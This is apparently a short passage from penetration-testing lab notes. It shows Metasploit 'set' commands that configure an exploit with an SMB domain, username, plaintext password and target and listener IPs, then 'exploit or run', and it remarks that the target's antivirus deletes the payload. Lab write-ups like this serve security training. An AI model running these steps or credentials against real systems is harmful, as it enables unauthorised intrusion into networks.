 ![](attachment/5441a50914d1fd6d63125c08f9353ac9.png)
>we need to set it so that this payload is attacking the right target

enter the following to do this.
```bash
set SMBDomain uadtargetnet.com
set SMBPass ethylene
set SMBUser A.George
set RHOSTS 192.168.10.1
set LHOSTS 192.168.10.253

# To Run the script
exploit or run
```

![](attachment/4d372ba32fa431102b76f093ef1cc704.png)
> This is happening because of the anti-virus on the target, it is deleting the payload, and preventing it from running
